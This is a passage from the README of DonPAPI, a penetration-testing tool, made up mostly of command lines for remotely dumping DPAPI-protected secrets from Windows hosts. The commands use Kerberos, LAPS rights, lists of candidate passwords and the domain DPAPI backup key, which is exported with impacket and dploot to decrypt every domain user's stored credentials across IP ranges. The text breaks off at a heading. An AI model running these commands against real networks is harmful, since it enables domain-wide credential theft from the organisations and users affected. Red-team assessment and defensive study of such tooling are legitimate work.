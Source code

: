 Using kerberos (-k)

```bash
DonPAPI -k domain/user@target
```

Using a user with LAPS password reading rights

```bash
DonPAPI -laps domain/user:passw0rd@target
```

Using relayed socks:

![HackndoRealying](https://pbs.twimg.com/media/FAnPpHjX0AE16r9?format=jpg&name=medium)

To decrypt secrets DonPapi might need :
- Nothing, when facing reversible encryption (firefox, mremoteNG, VNC)
- the machine DPAPI Key, we will fetch it automatically thanks to secretdumps when having an admin acces (Wifi, scheduled task passwords)
- the user password for everything related to DPAPI Protection, or de DPAPI Domain Backup key

It is possible to provide a list of credentials that will be tested on the target. DonPAPI will try to use them to decipher masterkeys.

This credential file must have the following syntax:

```plain
user1:pass1
user1:pass2
user2:passX
...
```

```bash
DonPAPI -credz credz_file.txt domain/user:passw0rd@target
```

When a domain admin user is available, it is possible to dump the domain backup key using impacket `dpapi.py` tool: 

```bash
dpapi.py backupkeys --export -t domain/user:passw0rd@target_dc_ip
```

Or with [dploot](https://github.com/zblurx/dploot):

```bash
dploot backupkeys -u username -p password -d domain 192.168.56.30
```


This backup key (pvk file) can then be used to dump all domain user's secrets!

```bash
DonPAPI -pvk domain_backupkey.pvk domain/user:passw0rd@domain_network_list
```

**Target can be an IP, IP range, CIDR, FQDN, file containing list targets (one per line)**

### Curently gathered info
